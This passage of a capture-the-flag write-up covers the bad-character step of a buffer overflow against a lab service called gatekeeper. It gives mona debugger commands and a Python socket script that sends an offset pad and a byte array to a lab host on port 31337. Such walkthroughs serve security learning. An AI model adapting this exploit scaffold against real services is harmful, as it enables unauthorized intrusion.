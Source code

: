 - restart gatekeeper in immunity and run exploit with the badchars
- note the address ESP registers **015619F8**
- in Moma lets run the memory comparison
- ``!mona compare -f C:\mona\gatekeeper\bytearray.bin -a 015619F8``

![0xskar](/assets/gatekeeper07.png)

- We can gerate a new bytearray in mona, with the badchars and then update our payload and send it though again hopyfully returning Unmodified.
- ``!mona bytearray -b "\x00\x0a"``

```shell
import socket
import sys

offset = 146
payload = b"A" * offset + b"B" * 4
badchars = (
  b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0d\x0e\x0f\x10"
  b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.0.24',31337))
      s.send(payload + badchars + b'\r\n')
      print("Payload sent...")
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```
